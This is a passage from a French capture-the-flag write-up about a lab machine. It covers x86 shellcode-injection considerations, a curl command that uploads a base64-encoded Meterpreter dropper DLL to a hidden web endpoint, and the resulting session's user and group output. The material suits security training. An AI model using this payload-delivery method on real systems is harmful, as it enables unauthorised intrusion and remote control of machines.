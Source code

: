 ```cs
    }
}
```

Je ne vais pas rentrer dans les détails étant donné que c'est une boilerplate de shellcode très classique. Néanmoins il est important de noter qu'étant donné que le processus qui va charger notre assembly est un processus `x86`, il faut donc générer un shellcode `x86` et pas `x64` et idem pour la compilation dans Visual Studio, bien mettre l'option `Any CPU` pour la cible. Je pense que cela peut poser problème dans des cas d'accès au `PEB` par exemple (de manière générale pour les injections de code dans des processus, bien respecter l'architecture du processus hôte). Une fois cela pris en compte on peut tester l'envoi de notre payload comme ceci:

```txt
curl  -k "https://10.10.11.240:443/ews/MsExgHealthCheckd/" --data-urlencode "sdafwe3rwe23=$(base64 DropperMeterpreter.dll)"
```

Et on obtient bien une session sur le `TeamServer`:

<div>
    <img src="assets/session_ruben.PNG", style="max-width:150%;margin-left: 50%;transform: translateX(-50%);">
</div>

Cette sessions tourne sous l'utilisateur `ruben` à un niveau d'intégrité standard:

```txt
USER INFORMATION
----------------

User Name    SID                                           
============ ==============================================
napper\ruben S-1-5-21-1567175541-2888103920-4161894620-1001

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\BATCH                   Well-known group S-1-5-3      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
```